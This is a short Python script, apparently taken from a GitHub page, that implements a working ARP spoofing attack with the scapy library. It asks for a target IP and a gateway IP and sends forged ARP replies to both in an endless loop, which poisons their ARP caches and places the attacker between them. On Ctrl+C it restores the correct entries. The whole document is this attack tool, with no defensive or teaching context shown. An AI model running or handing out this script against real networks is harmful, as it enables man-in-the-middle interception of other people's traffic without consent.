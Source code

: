  import scapy.all as scapy
import time


def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, verbose=False, timeout=1)[0]
    return answered_list[0][1].hwsrc


def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst= target_mac, psrc= spoof_ip )
    scapy.send(packet, verbose=False)

sent_packet_count = 0

def restore(destination_ip, source_ip):
    destination_mac=get_mac(destination_ip)
    source_mac=get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)

target_ip =  input("targetIP>")
gateway_ip =  input("gatewayIP>")

try:
    while True:
        spoof(target_ip,gateway_ip)
        spoof(gateway_ip,target_ip)
        sent_packet_count = sent_packet_count + 2
        print("\r[+] Packet sent: " + str(sent_packet_count), end="")
        time.sleep(2)
except KeyboardInterrupt:
    print("\n[-] Detected ctrl + C ...... resetting ARP tables .......... Please wait :)\n  [+]resetting done ")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)
